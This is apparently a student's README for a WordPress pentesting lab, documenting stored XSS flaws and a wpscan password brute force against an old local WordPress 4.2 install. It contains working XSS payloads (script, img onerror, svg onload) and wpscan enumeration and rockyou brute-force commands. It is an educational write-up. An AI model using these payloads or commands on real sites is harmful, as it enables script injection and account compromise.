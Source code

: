 # Project 7 - WordPress Pentesting

Time spent: 6 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID:  Authenticated stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br /> ![](CrossScriptingOne.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Create a post </li> <li>Add the following to the post : <script type="text/javascript">alert("Hiiii");</script> </li> <li> Publish </li> <li>Visit Post </li> </ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/post.php)
2. (Required) Vulnerability Name or ID : Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br />
    ![](EramCrossSiteScriptingFour.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Upload a Image </li> <li>Add the following to the title of the image : Minnie<img src="#" onerror="alert('Hi its Minnie')";/>.jpg </li><li>Visit the page </li></ul>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)
3. (Required) Vulnerability Name or ID : Password Brute Force Attack
  - [ ] Summary:
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: <br />
     ![](EramUserEnumerating.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Install worlists and get rockyou-75.txt. Make sure rockyou-75.txt is in /home/kali/Desktop/rockyou-75.txt</li> 
  ``` 
      $ apt-get install wordlists
      $ cd \usr\share\wordlists\
      $ gzip -d rockyou-75.txt.gz 
  ```
  <li> Get Api token from https://wpvulndb.com/ </li>
  <li> use token to find users <br /> : $ wpscan --url wpdistillery.vm -e u vp --api-token <token name>
  </li>
  <li> use token to find password <br /> : 
    $ wpscan --url wpdistillery.vm -e u --passwords /home/kali/Desktop/rockyou-75.txt --api-token <token name>
  </li>
</ul>
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-login.php)
4. (Optional) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough:  <br />
  ![](EramCrossSiteScriptingTwo.gif)
  - [ ] Steps to recreate: <br /><ul><li>Create a new page <li> <Add a youtube embed url such as : [embed src='https://youtube.com/embed/minnie\x3csvg onload=alert(12)\x3e'][/embed]</li><li>Publish</li><li>View Page</li></ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Setting up the project was the most difficult. Error messages while setting up where not descriptive so had to try out different solutions to issues.

## License

    Copyright 2020 Eram Manasia

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
